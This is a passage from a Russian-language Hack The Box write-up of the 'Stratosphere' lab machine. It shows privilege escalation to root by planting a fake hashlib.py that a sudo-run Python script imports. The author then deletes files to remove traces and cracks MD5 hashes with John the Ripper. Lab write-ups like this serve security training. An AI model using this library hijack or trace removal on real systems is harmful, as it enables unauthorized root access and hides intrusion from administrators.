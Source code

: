 Но в [эпилоге]({{ page.url }}#хеши) мы все же сломаем пару хешей. Так, разминки ради.

## PrivEsc: richard → root. Способ 2
В начале исходника нельзя не заметить импорт библиотеки `hashlib` для вычисления хеш-значений вводимых строк. Угоним же эту библиотеку?

Для этого нам необходимо узнать порядок резолва путей, по которым будет производиться импорт модулей. Сделать это можно такой командой:
```text
richard@stratosphere:~$ python -c 'import sys; print(sys.path)'
['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
```

Пустые кавычки в начале означают текущий каталог (CWD). То что нам нужно, я считаю!

Создадим фейковую библиотеку `hashlib.py` с нужным нам пейлоадом (можно построить реверс-шелл, или так же получить root-сессию, как и в первом способе, но для простоты я ограничусь просто выводом флага на экран — идея ясна):
```
richard@stratosphere:~$ echo 'import os; os.system("cat /root/root.txt")' > hashlib.py

richard@stratosphere:~$ ls -l *.py
-rw-r--r-- 1 richard richard   43 Sep  4 15:19 hashlib.py
-rwxr-x--- 1 root    richard 1507 Mar 19 15:23 test.py
```

И со спокойной совестью запустим скрипт:
```text
richard@stratosphere:~$ sudo /usr/bin/python ~/test.py
d41d8cd9????????????????????????
Solve: 5af003e100c80923ec04d65933d382cb
^C
```

Чистим следы пребывания в системе and we're done with this box:
```text
richard@stratosphere:~$ rm hashlib.py
richard@stratosphere:~$ rm /dev/shm/input* /dev/shm/output*
```

Stratosphere пройдена :triumph:

![owned-user.png]({{ "/img/htb/boxes/stratosphere/owned-user.png" | relative_url }})
{: .center-image}

![owned-root.png]({{ "/img/htb/boxes/stratosphere/owned-root.png" | relative_url }})
{: .center-image}

![trophy.png]({{ "/img/htb/boxes/stratosphere/trophy.png" | relative_url }})
{: .center-image}

# Эпилог
## Хеши
Шутки ради попрошу своего друга Джона решить предлагаемые тестом хеши:
```text
root@kali:~# echo '5af003e100c80923ec04d65933d382cb' > strat.md5
root@kali:~# echo 'd24f6fb449855ff42344feff18ee2819033529ff' > strat.sha1
root@kali:~# echo '91ae5fc9ecbca9d346225063f23d2bd9' > strat.md4
root@kali:~# echo '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943' > strat.blake2b512

root@kali:~# john strat.md5 --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
...
```

[//]: # (2019-09-17)
[//]: # ({{ "/img/xakep-badge.png" | relative_url }})